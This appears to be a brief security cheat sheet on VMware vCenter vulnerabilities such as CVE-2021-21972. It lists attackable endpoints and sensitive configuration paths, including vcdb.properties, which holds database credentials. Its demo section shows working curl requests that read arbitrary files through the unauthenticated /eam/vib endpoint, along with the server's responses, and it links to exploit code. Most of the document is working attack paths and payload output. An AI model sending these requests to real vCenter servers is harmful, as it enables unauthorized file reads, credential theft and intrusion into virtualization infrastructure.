 
- /vsphere-client/?csp
- /eam/vib?id=C:\\Windows\\System32\\drivers\\etc\\hosts
- /eam/vib?id=/etc/hosts
- /eam/vibd?id=/etc/hosts
- /eam/vibd?id=C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\vcdb.properties
- /ui/vropspluginui/rest/services/checkmobregister
- /ui/vropspluginui/rest/services/uploadova
- /checkmobregister
- /updatetelemetryInfo
- /checkLicenseSuiteApi
- /checkVsanLicenseValidity
- /getvcdetails
- /getstatus
- /testvcconnection
- /testvropsconnection
- /dashboard
- /capacity
- /capacity/memory
- /capacity/cpu
- /capacity/storage
- /license/allLicenses
- /vcclusters
- /vccontention
- /vcclusteralerts
- /inventoryscoreboard
- /alerts
- /vropsURL
- /vcIP
- /serverguid
- /Isceienabled
- /alertdetails
- /vsanalertdetails
- /osdetails
- /vmdetails
- /drs
- 
- POST /vropsinstallation content-type=application/json; charset=UTF-8
- POST /uploadova
- POST /configurevrops content-type=application/json; charset=UTF-8
- C:\\ProgramData\\VMware\\vCenterServer\\logs\\vsphere-client\\logs\\dataservice.log
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vsphere-client\\compatibility-matrix.xml
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vsphere-client\\webclient.properties
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\vcdb.properties


### Demo
```
$ curl -ik https://10.x.y.z/vsphere-client/?csp
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=CB600A5211B6C4B056FAFCFB86DEBDC805C0; Path=/vsphere-client/; Secure; HttpOnly
X-UA-Compatible: IE=edge
X-Frame-Options: SAMEORIGIN
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 7650
Date: Wed, 24 Feb 2021 06:09:04 GMT


curl -ik https://10.x.y.z/eam/vib?id=C:\\Windows\\System32\\drivers\\etc\\hosts
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Date: Wed, 24 Feb 2021 05:55:37 GMT
Server: Apache

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
```


### Ref
- https://twitter.com/jas502n/status/1316992409088094209
- [CVE-2021-21972 Vmware vcenter未授权任意文件漏洞分析](https://www.cnblogs.com/potatsoSec/p/14444897.html)
- [Unauthorized RCE in VMware vCenter](https://swarm.ptsecurity.com/unauth-rce-vmware/)
- https://attackerkb.com/topics/5nZX40suYA/cve-2021-21980
- [VMSA-2021-0027 的额外东东](https://articles.zsxq.com/id_1cnl8w2r5hsh.html)
- [Stealing administrative JWT's through post auth SSRF (CVE-2021-22056)](https://blog.assetnote.io/2022/01/17/workspace-one-access-ssrf/)
- https://github.com/shmilylty/cve-2021-22005-exp
